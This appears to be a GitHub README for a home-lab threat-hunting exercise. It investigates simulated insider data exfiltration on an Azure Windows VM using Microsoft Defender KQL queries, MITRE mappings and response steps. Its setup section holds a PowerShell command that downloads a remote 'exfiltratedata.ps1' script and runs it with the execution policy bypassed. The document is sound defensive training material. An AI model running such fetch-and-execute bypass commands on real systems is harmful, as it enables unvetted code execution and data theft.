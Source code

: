 <p align="center">
  <a href="https://github.com/Samuel-Cavada" target="_blank">
    <img src="https://img.shields.io/badge/Back_to_Main_Page-000000?style=for-the-badge&logo=github&logoColor=white" alt="Back to Main Page"/>
  </a>
</p>

<h1 align="center">Scenario 3: Suspected Data Exfiltration Employee</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Platform-Azure-0078D4?style=for-the-badge&logo=microsoftazure&logoColor=white" alt="Cloud Platform" />
  <img src="https://img.shields.io/badge/OS-Windows%2010-0078D6?style=for-the-badge&logo=windows&logoColor=white" alt="OS" />
  <img src="https://img.shields.io/badge/Tool-Microsoft%20Defender%20for%20Endpoint-00B388?style=for-the-badge&logo=microsoftdefender&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Tool-PowerShell-2C5EA8?style=for-the-badge&logo=powershell&logoColor=white" alt="Tool" />
  <img src="https://img.shields.io/badge/Focus-Insider%20Threat%20Detection-orange?style=for-the-badge" alt="Focus Area" />
</p>

---

## 📌 Project Objective
> Investigate suspected data exfiltration activities on a corporate device belonging to a disgruntled employee. Use Microsoft Defender for Endpoint logs to identify abnormal file, process, and network behavior related to archiving and transferring proprietary data.

---

## 🧰 Tools & Technologies
- **Platform:** Azure VM
- **OS:** Windows 10
- **Tools:** Microsoft Defender for Endpoint, PowerShell, Log Analytics
- **Languages/Scripts:** PowerShell, KQL

---

## 🧠 Skills Gained / Focus Areas
- Investigated suspicious user activity using endpoint logs
- Detected archiving software and file compression behavior
- Correlated timestamped events across process, file, and network layers
- Applied MITRE TTP mapping for insider threat scenarios

---

## 🧪 Environment Setup
> Created a Windows 10 VM onboarded to MDE. Simulated exfiltration by running:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1'
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1
```

> Employee under investigation: `John Doe`  
> Device: `windows-target-1`

![Environment Setup](assets/images/setup.jpg)

---

## 🛠️ Walkthrough
1. [Step 1: Preparation](#step-1-preparation)
2. [Step 2: Data Collection](#step-2-data-collection)
3. [Step 3: Data Analysis](#step-3-data-analysis)
4. [Step 4: Investigation](#step-4-investigation)
5. [Step 5: Response](#step-5-response)
6. [Step 6: Documentation](#step-6-documentation)
7. [Step 7: Improvement](#step-7-improvement)

---

### ✅ Step 1: Preparation
> Hypothesis: John may be attempting to compress and exfiltrate sensitive data using scripts or archiving tools.

---

### ✅ Step 2: Data Collection
> Inspected the following telemetry tables:
- `DeviceFileEvents`
- `DeviceProcessEvents`
- `DeviceNetworkEvents`

> Focused on `windows-target-1` within the activity window after script execution.

---

### ✅ Step 3: Data Analysis
> Detected archiving activity using:
```kql
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe", "peazip.exe", "Bandizip.exe", "UniExtract.exe", "POWERARC.EXE", "IZArc.exe", "AshampooZIP.exe", "FreeArc.exe"]);
let VMName = "windows-target-1";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| where DeviceName == VMName
| order by Timestamp desc
```

> Timestamp from findings: `2024-10-15T19:00:48.5615171Z`

> Pivoted to file activity:
```kql
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceFileEvents
| where Timestamp between ((specificTime - 1m) .. (specificTime + 1m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
```

> Investigated outbound connection attempts:
```kql
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceNetworkEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == "windows-target-1"
| order by Timestamp desc
```

---

### ✅ Step 4: Investigation
> Found evidence of:
- A PowerShell script initiating file compression
- Outbound connections to unknown external IPs shortly after archiving
- Actions mapping to MITRE techniques:
  - **T1560.001** – Archive via Utility
  - **T1041** – Exfiltration over C2 channel

---

### ✅ Step 5: Response
> - Escalated to security operations  
> - Recommended disabling John Doe’s account  
> - Suggested isolating `windows-target-1` and collecting an investigation package

---

### ✅ Step 6: Documentation
> - Archived tool executed by John Doe on `windows-target-1`  
> - Compressed data and outbound connection observed  
> - Timeline, tool usage, and artifacts were logged and archived  
> - Queries and indicators saved for replay and rule development

---

### ✅ Step 7: Improvement
> - Restrict archiving software and PowerShell script execution  
> - Apply DLP policies to monitor sensitive file access  
> - Enable alerts for compression + outbound transfer behavior  
> - Implement better user behavior analytics for flagged users

---

## 📝 Timeline Summary and Findings
- John Doe ran a script that created compressed files  
- Log evidence showed PowerShell and outbound IP communication  
- Activity aligned with insider threat and exfiltration patterns  
- Threat contained before actual damage confirmed

---

## 📎 References
- [T1560.001 – Archive via Utility (MITRE)](https://attack.mitre.org/techniques/T1560/001/)
- [T1041 – Exfiltration Over C2 Channel (MITRE)](https://attack.mitre.org/techniques/T1041/)
- [Microsoft Defender Investigation Hunting](https://learn.microsoft.com/en-us/microsoft-365/security/defender/advanced-hunting-overview)
